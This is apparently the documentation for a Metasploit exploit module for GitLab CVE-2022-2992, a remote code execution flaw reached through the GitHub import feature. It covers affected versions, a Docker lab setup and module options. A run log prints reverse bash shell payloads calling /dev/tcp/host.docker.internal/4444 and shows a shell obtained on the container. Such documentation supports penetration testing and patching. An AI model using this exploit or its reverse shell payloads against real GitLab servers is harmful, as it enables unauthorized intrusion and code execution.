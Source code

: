 ## Vulnerable Application

### Description

An authenticated user can import a repository from Github into Gitlab.

When importing a GitHub repository the Gitlab api client uses `Sawyer` for handling the responses. This takes a JSON hash and converts
it into a Ruby class that has methods matching all of the keys. This happens recursively, and allows for any method to be overridden
including built-in methods such as `to_s`.

The redis gem uses `to_s` and `bytesize` to generate the RESP (Redis serialization protocol) command. By replying with a specially
crafted JSON object (that will be further parsed as a `Sawyer::Resource`), one controlling the Github server can inject arbitrary
redis commands to the stream.

On August 30, 2022, Gitlab released a software update that addressed this vulnerability (CVE-2022-2992).

The following products are affected:

- From 11.10 to 15.1.6
- From 15.2 to 15.2.4
- From 15.3 to 15.3.2


### Exploitation

This module exploits the Gitlab vulnerability by injecting a Ruby serialized object into the Redis user
session object. Once Gitlab calls the Marshal.load when loading the ` _gitlab_session` cookie, it will
execute a deserialisation gadget and trigger the payload.

To achieve that this module:
- Will generate an universal Ruby deserialisation gadget payload;
- Will create an access token for the user targeted;
- Will start a server to emulate the Github and serve the payload to be injected;
- Will create a group and also trigger the Github import feature to the repository from the controlled server
- Will perform a request using the just injected session ID that when loaded must trigger the payload.

After the execution the cleanup method will be called and:
- Should delete the created group and consequently the repository
- Should revoke the access token created
- Should logout the user

### Setup

Create a `docker-compose.yml` file as below:

```yml
services:
  gitlab:
    image: 'gitlab/gitlab-ee:15.3.1-ee.0'
    restart: always
    container_name: gitlab
    hostname: 'gitlab.example'
    network_mode: "bridge"
    ports:
      - '880:80'
      - '8443:443'
    volumes:
      - gitlab_config:/etc/gitlab
      - gitlab_logs:/var/log/gitlab
      - gitlab_data:/var/opt/gitlab
volumes:
  gitlab_config:
    driver: local
  gitlab_logs:
    driver: local
  gitlab_data:
    driver: local
```

Run the below command to create the container:

```
$ docker-compose up
```

Wait for container to be "healthy" before continue. One can use [this](https://github.com/redwaysecurity/CVEs/blob/main/CVE-2022-2992/environment/healthy.sh) bash script to monitor the status.

```
$ # Creating personal access token for the root user
$ TOKEN=`tr -dc A-Za-z0-9 </dev/urandom | head -c 24 ; echo ''`
$ docker exec -e TOKEN=$TOKEN -it gitlab gitlab-rails runner "token = User.find_by_username('root').personal_access_tokens.create(scopes: [:sudo, :api], name: 'Automation token'); token.set_token(ENV['TOKEN']); token.save!"
$ # Using the personal access token from the root user a user.
$ USER=msf
$ PASSWORD=SuperStrongestGitlabPassword
$ curl --request POST --header "PRIVATE-TOKEN: $TOKEN" --data "skip_confirmation=true&email=$USER@gitlab.example&name=$USER&username=$USER&password=$PASSWORD" "http://gitlab.example:880/api/v4/users"
```

## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI (required)

The path to the Gitlab (Default: `/`).

### USERNAME (required)

The username of the target user to authenticate with.

### PASSWORD (required)

The password of the target user to authenticate with.

### NGROK_URL (required)

The Ngrok tunnel url to be used. The Gitlab will perform requests to this address when trying to import the repository.

Example how start the tunnel:
```
ngrok http 127.0.0.1:4567
```

### SRVHOST (required)

The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.

### SRVPORT (required)

The local port to listen on. This is the port to be used when creating the tunnel.

## Scenarios

### Doker container running Gitlab 15.3.1

```
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > options

Module options (exploit/multi/http/gitlab_github_import_rce_cve_2022_2992):

   Name       Current Setting                         Required  Description
   ----       ---------------                         --------  -----------
   NGROK_URL  https://f8f5-194-230-160-77.eu.ngrok.i  yes       The Ngrok tunnel url
              o
   PASSWORD   12345678                                yes       The password for the specified username
   Proxies    http:172.25.144.1:8080                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.25.144.1                            yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                                                k/wiki/Using-Metasploit
   RPORT      880                                     yes       The target port (TCP)
   SRVHOST    0.0.0.0                                 yes       The local host or network interface to listen on. This must be an add
                                                                ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    4567                                    yes       The local port to listen on.
   SSL        false                                   no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                            no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                       yes       The base path to the gitlab application
   URIPATH                                            no        The URI to use for this exploit (default is random)
   USERNAME   heyder                                  yes       The username to authenticate as
   VHOST                                              no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting       Required  Description
   ----   ---------------       --------  -----------
   LHOST  host.docker.internal  yes       The listen address (an interface may be specified)
   LPORT  4444                  yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command

msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > exploit

[+] bash -c '0<&212-;exec 212<>/dev/tcp/host.docker.internal/4444;sh <&212 >&212 2>&212'
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) >
[-] Handler failed to bind to 169.254.192.184:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[!] AutoCheck is disabled, proceeding with exploitation
[*] Using URL: http://host.docker.internal:4567/
[*] Executing command: bash -c '0<&151-;exec 151<>/dev/tcp/host.docker.internal/4444;sh <&151 >&151 2>&151'
[*] Session ID: lbid
[*] Creating group KQPhsIKX
[*] Importing a repository from github
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:58700) at 2022-11-19 15:23:06 +0100

msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > sessions -1
[*] Starting interaction with 1...

id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-rails/working
exit
[*] Server stopped.
[*] 172.25.144.1 - Command shell session 1 closed.
```
